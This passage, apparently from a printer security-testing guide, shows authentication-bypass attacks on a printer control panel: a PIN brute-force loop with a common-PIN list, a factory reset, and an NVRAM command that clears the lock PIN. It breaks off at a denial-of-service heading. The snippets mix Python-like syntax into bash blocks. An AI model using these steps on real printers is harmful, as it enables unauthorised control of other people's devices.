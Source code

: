 
## 🚫 Authentication Bypass

### Attack 2.1: PIN Brute Force

**Objective**: Bypass control panel lock

**Method:**
```bash
# Automated brute force
> unlock_bruteforce

Testing PIN 0...
Testing PIN 1...
Testing PIN 2...
...
Success at PIN 4567!
```

**Optimized Attack:**
```bash
# Test common PINs first
common_pins = [0, 1234, 12345, admin, 0000, 1111]

for pin in common_pins:
    > unlock {pin}
```

**Impact**: Full printer control, configuration access

---

### Attack 2.2: Lock Bypass via Factory Reset

**Objective**: Bypass lock by resetting

```bash
# Method 1: Factory reset (destructive)
> reset
Are you sure? (yes/no): yes
[Printer reset, lock removed]

# Method 2: NVRAM manipulation (advanced)
> nvram set LOCKPIN 0
```

**Impact**: Lock bypassed, but settings lost

---

## 🚧 Denial of Service

### Attack 3.1: Display Message Spam
